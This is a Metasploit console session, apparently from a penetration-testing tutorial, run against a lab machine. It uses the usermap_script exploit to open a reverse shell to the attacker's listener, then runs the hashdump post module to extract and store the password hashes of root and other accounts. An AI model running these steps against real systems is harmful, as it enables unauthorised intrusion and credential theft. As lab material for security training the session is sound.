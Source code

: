 ```bash
msf  exploit(usermap_script) > exploit

[*] Started reverse double handler
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo 4uGPYOrars5OojdL;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "4uGPYOrars5OojdL\r\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (172.16.194.163:4444 -> 172.16.194.172:55138) at 2012-06-27 19:38:54 -0400

^Z
Background session 1? [y/N]  y

msf  exploit(usermap_script) > use post/linux/gather/hashdump
msf  post(hashdump) > show options

Module options (post/linux/gather/hashdump):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  1                yes       The session to run this module on.

msf  post(hashdump) > sessions -l

Active sessions
===============

  Id  Type        Information  Connection
  --  ----        -----------  ----------
  1   shell unix               172.16.194.163:4444 -> 172.16.194.172:55138 (172.16.194.172)

msf  post(hashdump) > run

[+] root:$1$/avpfBJ1$x0z8w5UF9Iv./DR9E9Lid.:0:0:root:/root:/bin/bash
[+] sys:$1$fUX6BPOt$Miyc3UpOzQJqz4s5wFD9l0:3:3:sys:/dev:/bin/sh
[+] klog:$1$f2ZVMS4K$R9XkI.CmLdHhdUE3X9jqP0:103:104::/home/klog:/bin/false
[+] msfadmin:$1$XN10Zj2c$Rt/zzCW3mLtUWA.ihZjA5/:1000:1000:msfadmin,,,:/home/msfadmin:/bin/bash
[+] postgres:$1$Rw35ik.x$MgQgZUuO5pAoUvfJhfcYe/:108:117:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
[+] user:$1$HESu9xrH$k.o3G93DGoXIiQKkPmUgZ0:1001:1001:just a user,111,,:/home/user:/bin/bash
[+] service:$1$kR3ue7JZ$7GxELDupr5Ohp6cjZ3Bu//:1002:1002:,,,:/home/service:/bin/bash
[+] Unshadowed Password File: /root/.msf4/loot/20120627193921_msfu_172.16.194.172_linux.hashes_264208.txt
[*] Post module execution completed

msf  post(hashdump) > loot

Loot
====

host            service  type          name                   content     info                            path
----            -------  ----          ----                   -------     ----                            ----
172.16.194.172           linux.hashes  unshadowed_passwd.pwd  text/plain  Linux Unshadowed Password File  /root/.msf4/loot/20120627193921_msfu_172.16.194.172_linux.hashes_264208.txt
```